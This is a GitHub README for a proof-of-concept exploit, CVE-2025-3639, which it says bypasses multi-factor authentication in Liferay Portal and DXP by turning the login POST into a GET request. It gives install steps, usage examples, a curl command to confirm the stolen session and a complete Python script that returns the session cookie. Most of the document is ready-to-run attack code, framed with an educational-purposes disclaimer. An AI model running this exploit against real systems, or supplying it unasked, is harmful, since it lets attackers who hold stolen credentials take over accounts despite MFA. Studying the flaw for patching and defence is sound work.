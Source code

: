# CVE-2025-3639 PoC - Liferay Portal/DXP Login Bypass

This repository contains a Proof of Concept (PoC) for **CVE-2025-3639**, a login bypass vulnerability in Liferay Portal (versions 7.3.0–7.4.3.132) and Liferay DXP (various versions from 2024.Q1 to 2025.Q1.6). The PoC demonstrates how an unauthenticated user with valid credentials can bypass multi-factor authentication (MFA) by modifying a POST request to a GET request, potentially gaining unauthorized access to user accounts.

**Warning**: This PoC is for **educational purposes only**. Unauthorized testing or exploitation of this vulnerability is illegal and unethical. Use only with explicit written permission from the system owner.

## Requirements

- **Environment**: Linux (e.g., Kali Linux, Ubuntu, or a virtualized setup).
- **Dependencies**:
  ```bash
  sudo apt-get update
  sudo apt-get install python3 python3-requests
  pip3 install requests
  ```
- **Network**: Access to a target Liferay Portal/DXP instance (must be in a test environment with explicit permission).
- **Credentials**: Valid user credentials for the target Liferay instance.

## Installation

1. Clone the repository:
   ```bash
   git clone https://github.com/6lj/CVE-2025-3639-PoC.git
   cd CVE-2025-3639-PoC
   ```

2. Ensure Python 3 and the `requests` library are installed:
   ```bash
   pip3 install requests
   ```

## What It Does

- The PoC exploits CVE-2025-3639 by modifying a login POST request to a GET request, bypassing MFA checks.
- It sends a crafted HTTP GET request with valid credentials to authenticate without completing the MFA process.
- The script is designed to demonstrate the vulnerability in a controlled, authorized environment.

## Usage

Run the PoC script with the appropriate arguments (replace `<target_url>`, `<username>`, and `<password>` with the target Liferay instance URL and valid credentials).

### `poc.py`
```bash
python3 poc.py --target <target_url> --username <username> --password <password>
```

- **Parameters**:
  - `--target`: The URL of the Liferay Portal/DXP instance (e.g., `http://example.com`).
  - `--username`: Valid username for the target instance.
  - `--password`: Valid password for the username.

### Example
```bash
python3 poc.py --target http://192.168.1.100 --username test@example.com --password Test123!
```

## Verify Results

- **Success**: If the exploit works, the script will return a valid session token or a success message indicating access to the user account without MFA.
  ```bash
  curl -b "COOKIE=<session_token>" http://<target_url>/api/jsonws/user/get-current-user
  ```
  - Expected output: User details confirming successful authentication.
- **Failure**: If the server returns an error (e.g., `401 Unauthorized` or `403 Forbidden`), the instance may not be vulnerable, or MFA is not enabled.

- **Monitor Traffic**: Use a tool like Wireshark to inspect HTTP traffic:
  ```bash
  sudo wireshark -f "tcp port 80 or tcp port 443"
  ```

## PoC Script

Below is the sample code for `poc.py`:

```python
import requests
import argparse

def exploit(target, username, password):
    print(f"[*] Attempting CVE-2025-3639 exploit on {target}")
    login_url = f"{target}/c/portal/login"

    params = {
        "p_auth": "",
        "login": username,
        "password": password
    }
    
    try:
        response = requests.get(login_url, params=params, allow_redirects=True)
        if response.status_code == 200 and "JSESSIONID" in response.cookies:
            print(f"[+] Success! Session token: {response.cookies['JSESSIONID']}")
            return True
        else:
            print(f"[-] Failed: {response.status_code} - {response.text}")
            return False
    except Exception as e:
        print(f"[-] Error: {str(e)}")
        return False

if __name__ == "__main__":
    parser = argparse.ArgumentParser(description="CVE-2025-3639 PoC for Liferay Portal/DXP")
    parser.add_argument("--target", required=True, help="Target Liferay URL (e.g., http://example.com)")
    parser.add_argument("--username", required=True, help="Valid username")
    parser.add_argument("--password", required=True, help="Valid password")
    args = parser.parse_args()
    
    exploit(args.target, args.username, args.password)
```

## Important Notes

- This PoC requires valid credentials, as the vulnerability allows bypassing MFA but not guessing credentials.
- Test only in a controlled environment with explicit permission from the system owner.
- The vulnerability has been patched in newer versions of Liferay Portal/DXP. Update to the latest version to mitigate this issue.

## Disclaimer

This project is for **educational purposes only**. The author is not responsible for any unauthorized or illegal use of this PoC. Always obtain explicit permission from the system owner before testing.
